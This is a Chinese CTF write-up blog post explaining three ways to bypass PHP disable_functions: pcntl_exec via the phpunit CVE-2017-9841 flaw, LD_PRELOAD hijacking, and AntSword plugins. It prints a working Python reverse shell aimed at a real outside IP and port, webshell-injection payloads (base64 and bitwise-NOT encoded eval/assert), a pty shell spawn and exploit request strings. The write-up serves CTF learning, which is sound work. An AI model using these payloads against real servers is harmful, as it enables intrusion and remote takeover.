<!--yml
category: 未分类
date: 2022-04-26 14:36:39
-->

# 如何在ctf解题实战中绕过disable_function_YnG_t0的博客-CSDN博客_disablefunctions 绕过

> 来源：[https://blog.csdn.net/qq_47168481/article/details/122638886](https://blog.csdn.net/qq_47168481/article/details/122638886)

# 文章介绍

本文介绍将介绍ctf比赛中遇到的三种绕过disable_function的方法，分别为利用`pcntl_exec`函数，利用`LD_PRELOAD`环境变量,以及使用`蚁剑的插件`绕过，最后获得flag

# 具体过程

## 利用pcntl_exec函数

**例题：`第四届蓝帽杯总决赛-php`**

**要点：`CVE-2017-9841的发现；pcntl-exec python反弹shell`**

扫描目录，可以发现存在：`/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php`

同时查看源码后发现这是一个php测试框架

综合可以知道存在一个[phpunit漏洞 CVE-2017-9841](https://github.com/vulhub/vulhub/blob/master/phpunit/CVE-2017-9841/README.zh-cn.md)

利用方式为：进入探测的存在缺陷的目录，直接post执行命令，利用scandir函数扫描可以扫描到当前目录的文件中存在flag

但是这一题遇到了disable_function，禁用了很多函数，如一些基本的system，exec函数都被禁用了，没有权限读取到flag，也无法反弹shell

查阅资料发现[pcntl-exec函数](https://www.php.net/manual/zh/function.pcntl-exec.php)没有被禁用，尝试利用

该函数表示在当前进程空间执行指定程序，当发生错误时返回false，执行成功时没有返回，也就是说执行成功也不会回显，于是使用该函数执行反弹shell，利用python反弹shell可以成功回显

```
 <?php pcntl_exec("/usr/bin/python",array('-c', 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM,socket.SOL_TCP);s.connect(("47.242.11.183",2333));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'));?> 
```

监听相应端口：`nc -lvp 2333`
拿到shell，查看flag文件的权限，发现其是属于admin用户的
于是尝试提权，suid等等都没用，再根目录翻找到数据库的账号密码
尝试利用密码登陆admin用户，由于不能回显，使用python实现交互
`python -c 'import pty;pty.spawn("/bin/sh")'`
再切换为admin用户，即可读取flag


*   **重点：**pcntl_exec函数反弹shell的使用****

```
<?php pcntl_exec("/usr/bin/python",array('-c', 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM,socket.SOL_TCP);s.connect(("47.242.11.183",2333));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'));?> 
```

## 利用LD_PRELOAD 环境变量

例题：`[GKCTF2020]CheckIN`
本题NSSCTF上面可以复现：[网站](https://www.ctfer.vip/#/problem/1301?back=%257B%2522contest%2522:%2522%2522,%2522year%2522:0,%2522source%2522:0,%2522name%2522:%2522CheckIN%2522,%2522username%2522:%2522%2522,%2522type%2522:0,%2522tag%2522:%255B%255D,%2522tagType%2522:0,%2522date%2522:%2522%2522,%2522unsolved%2522:false,%2522page%2522:1%257D)

要点：`对bypass disable_function的熟悉`

原理解释：
根据网上公布的一段绕过disable_function的[POC](https://www.exploit-db.com/exploits/35146)分析
在POC中，php的mail函数在执行过程中会默认调用系统程序/usr/sbin/sendmail，如果我们能劫持sendmail程序，再用mail函数来触发就能实现执行系统命令，通过webshell的环境变量LD_PRELOAD

LD_PRELOAD 环境变量，它可以影响程序运行时的链接，它允许你定义在程序运行前优先加载的动态链接库。
我们通过环境变量 LD_PRELOAD 劫持系统函数，可以达到不调用 PHP 的各种命令执行函数（system()、exec() 等等）仍可执行系统命令的目的。
如劫持 getuid()，是因为 sendmail 程序会调用该函数（当然也可以为其他被调用的系统函数）

但是使用sendmail函数会遇上很多阻碍，有大佬找到了新方法，并公布在了github上：[bypass disable_function](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)，在加载时就执行代码（拦劫启动进程），而不用考虑劫持某一系统函数。

具体原理可以看大佬的博客：[某大佬](https://wooyun.js.org/drops/%E5%88%A9%E7%94%A8%E7%8E%AF%E5%A2%83%E5%8F%98%E9%87%8FLD_PRELOAD%E6%9D%A5%E7%BB%95%E8%BF%87php%20disable_function%E6%89%A7%E8%A1%8C%E7%B3%BB%E7%BB%9F%E5%91%BD%E4%BB%A4.html) [WHOAMI大佬](https://www.freebuf.com/articles/network/263540.html)

**大佬的文件**


```
四个有用文件
php文件是一个webshell
两个so文件分别代表linux x32和x64环境下的动态链接库
c文件是编译它们的文件

具体用法：
cmd ：待执行的系统命令，如 whoami 命令。
outpath ：保存命令执行输出结果的文件路径（如 /tmp/xx），便于在页面上显示，另外该参数，你应注意 web 是否有读写权限、web 是否可跨目录访问、文件将被覆盖和删除等几点。
sopath ：指定劫持系统函数的共享对象的绝对路径（如 /var/www/bypass_disablefunc_x64.so），另外关于该参数，你应注意 web 是否可跨目录访问到它。 
```

### 题目分析过程

```
<?php 
highlight_file(__FILE__);
class ClassName
{
        public $code = null;
        public $decode = null;
        function __construct()
        {
                $this->code = @$this->x()['Ginkgo'];
                $this->decode = @base64_decode( $this->code );
                @Eval($this->decode);
        }

        public function x()
        {
                return $_REQUEST;
        }
}
new ClassName(); 
```

可以看到construct初始化后，赋予一个Ginkgo变量，再将赋予给Ginkgo的参数base64解密一下，再利用eval函数执行，尝试写入一句话

```
?Ginkgo=ZXZhbCgkX1BPU1RbY21kXSk7 
```

phpinfo一下查看disable_function
这里发现能被过滤的全都被过滤了，包括pcntl_exec等能够实现反弹shell的函数。

蚁剑连接，查看一下发现预期内执行不了命令
在这里上传两个必要文件后即可正常的RCE
/tmp目录表示临时目录，尝试在这上传.so以及.php文件，成功上传
现在即可利用上传的两个文件进行命令执行,得到flag。

```
?Ginkgo=aW5jbHVkZSgiL3RtcC9ieXBhc3NfZGlzYWJsZWZ1bmMucGhwIik7&cmd=/readflag&outpath=/tmp/outfile123&sopath=/tmp/bypass_disablefunc_x64.so
base64即 include("/tmp/bypass_disablefunc.php"); 
```



## 利用蚁剑插件

**例题：`[极客大挑战 2019]RCE ME`**
这一题buu上可以复现：[网站](https://buuoj.cn/challenges#%5B%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019%5DRCE%20ME)

**要点：`无字母数字命令执行，蚁剑插件的利用`**

**开始解题**

```
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
} 
```

这里需要赋予code的参数长度小于等于40，且不能出现字母和数字

异或，取反，自增等都可以，[更详细的无字母数字的RCE](http://arsenetang.com/2021/07/28/RCE%E7%AF%87%E4%B9%8B%E6%97%A0%E5%AD%97%E6%AF%8D%E6%95%B0%E5%AD%97rce/)
这里采用较为方便的办法：取反法

首先phpinfo一下查看disable_function信息

```
<?php
$a='phpinfo';
echo urlencode(~$a);
?>
?code=(~%8F%97%8F%96%91%99%90)(); 
```


在php7中，assert不再是函数，变成了一个语言结构（类似eval），不能再作为函数名动态执行代码，使用assert执行一句话。

发现和上一题一样过滤了很多函数，尝试写入一句话

```
<?php
$b='assert';
$c='eval($_POST[YNG])';
echo urlencode(~$b);
echo ("<p>");
echo  urlencode(~$c);
?>
?code=(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%A6%B1%B8%A2%D6); 
```

连接蚁剑后发现同样是无法命令执行
在这里需要使用的是linux版本的蚁剑，[下载地址](https://github.com/AntSwordProject/AntSword-Loader)，在插件市场中下载disable_function插件，这里需要设置代理才能成功
使用插件：`PHP7 GC with Certain Destructors UAF`
成功绕过disable_function并拿到flag
这一题也可以使用上一题的办法，就不再赘述了。

对插件的利用原理涉及到pwn的领域，就没再去深挖了，想看的师傅看一下[这个网站](https://www.anquanke.com/post/id/195686#h3-6)

在上一题中，尝试利用蚁剑插件，但是失败了，/tmp和根目录都不能上传

当使用LD_PRELOAD插件时，如果可以上传的话，蚁剑会在/var/www/html目录里上传一个.antproxy.php文件，我们重新添加一个数据，将连接的 URL shell 脚本名字改为.antproxy.php，密码为ant，在这个新shell里面可以执行命令。

**参考文献：**

https://www.freebuf.com/articles/network/263540.html（WHOAMI大佬）

https://www.cnblogs.com/karsa/p/13051079.html（已经复出的kar3a大佬）

https://wooyun.js.org/drops/%E5%88%A9%E7%94%A8%E7%8E%AF%E5%A2%83%E5%8F%98%E9%87%8FLD_PRELOAD%E6%9D%A5%E7%BB%95%E8%BF%87php%20disable_function%E6%89%A7%E8%A1%8C%E7%B3%BB%E7%BB%9F%E5%91%BD%E4%BB%A4.html

http://arsenetang.com/2021/07/28/RCE%E7%AF%87%E4%B9%8B%E6%97%A0%E5%AD%97%E6%AF%8D%E6%95%B0%E5%AD%97rce/